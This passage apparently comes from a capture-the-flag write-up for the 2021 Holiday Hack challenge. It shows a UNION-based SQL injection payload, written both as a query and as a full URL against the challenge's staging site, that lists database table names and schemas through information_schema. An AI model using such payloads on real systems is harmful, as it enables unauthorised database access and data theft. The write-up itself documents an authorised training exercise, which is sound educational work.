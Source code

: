 ![SQL Injection](/assets/images/HolidayHack2021/sql_injection.png)

Success! Now we just have to get it to do something interesting. PentestMonkey has a pretty good [mysql injection cheat sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) that we can reference.

We can get the table names with this query:
```sql
UNION SELECT * FROM (SELECT 1)a JOIN (SELECT table_name FROM information_schema.tables)b JOIN (SELECT table_schema FROM information_schema.tables)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g -- -
```
```
https://staging.jackfrosttower.com/detail/0,0 UNION SELECT * FROM (SELECT 1)a JOIN (SELECT table_name FROM information_schema.tables)b JOIN (SELECT table_schema FROM information_schema.tables)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g -- -
```

The titles will be the table names and the first bullet of each card will be the database (a.k.a. `table_schema`) the table is in.

![Table Names](/assets/images/HolidayHack2021/table_names.png)

